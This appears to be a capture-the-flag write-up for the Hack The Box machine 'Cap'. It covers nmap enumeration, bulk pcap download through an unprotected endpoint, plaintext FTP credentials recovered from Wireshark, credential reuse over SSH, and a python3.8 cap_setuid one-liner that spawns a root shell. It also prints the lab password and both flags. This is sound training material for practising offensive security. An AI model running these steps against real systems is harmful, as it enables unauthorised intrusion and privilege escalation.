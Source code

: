 ```yaml
---
title: 'Hack The Box Writeup: Cap'
layout: post
date: '2021-07-29 15:12:11 +0800'
categories:
- CTF
tags: htb web privesc network
---
```


![Machine avatar](https://www.hackthebox.eu/storage/avatars/70ea3357a2d090af11a0953ec8717e90.png)

## Port Scan
First run an nmap scan with service enumeration, default scripts, and OS identification.
```bash
nmap 10.10.10.245 -sV -sC -O
```
Which gives the following output:
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
...
|_http-server-header: gunicorn
|_http-title: Security Dashboard
...
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There are three open ports at this address. An FTP server on port 21, SSH server on port 22, and   an HTTP server on port 80. The HTTP server is running Gunicorn which is Python web server similar to Flask.

## Web Enumeration
Lets hop into a browser and check out the web server. Visiting it, we see there are 4 tabs we can visit.

> 10.10.10.245

![tab 1](/assets/img/tab1.jpg)
*A visual representation of security events, failed login attempts, and port scans over the last 24 hours at this ip address.*
> 10.10.10.245/data/0

![tab 2](/assets/img/tab2.jpg)
*Pressing the second tab for the security snapshot goes to /capture. This in turn redirects to /data/ followed by a number. We can manually change this to 0 or any other number. On this page we can also download a pcap file corresponding to this number.*

Presumably we will need to investigate some of these pcap files with Wireshark as the name of the box is "Cap". Also note that pressing download redirects to /download/0. This way we can download pcap files directly from a url including indices which are missing data pages like at /data/9.
> 10.10.10.245/ip

![tab 3](/assets/img/tab3.jpg)
*The output of the ip shell command at 10.10.10.245*
> 10.10.10.245/netstat

![tab 4](/assets/img/tab4.jpg)
*The output of the netstat shell command at 10.10.10.245*

After investigation, it seems that the incrementing numbers after /data/ represent portions of the network log in chronological order. Lets start at 10.10.10.245/download/0 and download 0.pcap all the way to 10.10.10.245/download/25 for 25.pcap so we can read any part of the log with Wireshark. This can be done with this simple curl one liner:

```bash
curl http://10.10.10.245/download/[0-25] -O
```

## Packet Analysis
First, let's open 0.pcap from Wireshark.
Sorting the packets by protocol and examining the FTP traffic we can immediately see an unencrypted FTP login.
![Wireshark log](/assets/img/wire0.jpg)
From this traffic we get the following username and password to login to the FTP server.

> USER nathan
> PASS Buck3tH4TF0RM3!

We can also see that this same user retrieved a file named notes.txt before the log ends.
## FTP Enumeration
Login to the ftp server with

```bash
ftp 10.10.10.245
```

Then entering nathan's username and password we succesfully logged in! In nathan's home directory there is a file called user.txt which holds the first flag for HTB.

> f8ee4208619dd70ee616d7cd81628906

To get a shell, lets try to connect to ssh server that is running with the same credentials

```bash 
ssh nathan@10.10.10.245
```
```
    ...
    Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
    ...
    nathan@cap:~$ ls
    linpeas.sh  ls.txt  snap  user.txt  user2.txt
```
Somebody else conveniently already downloaded linpeas.sh so we can do linux enumeration without having to scp that.
## Linux Privilege Escalation
To get linpeas.sh if it is not already on this system, run the scp command using nathan's account then ssh in on port 22.

```bash
./linpeas.sh
```
  
One interesting line in the enumeration results is:

> /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

It seems that this python binary has the capability to set the user id to root. We can do this by running python code which sets the uid then executes a new shell.

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

And now we are root!
The last flag is located at /root/root.txt
 
```bash
cat root.txt
```

> e516cb179c03e3c916f04f2acef5b4bc

With that, we have pwned this machine
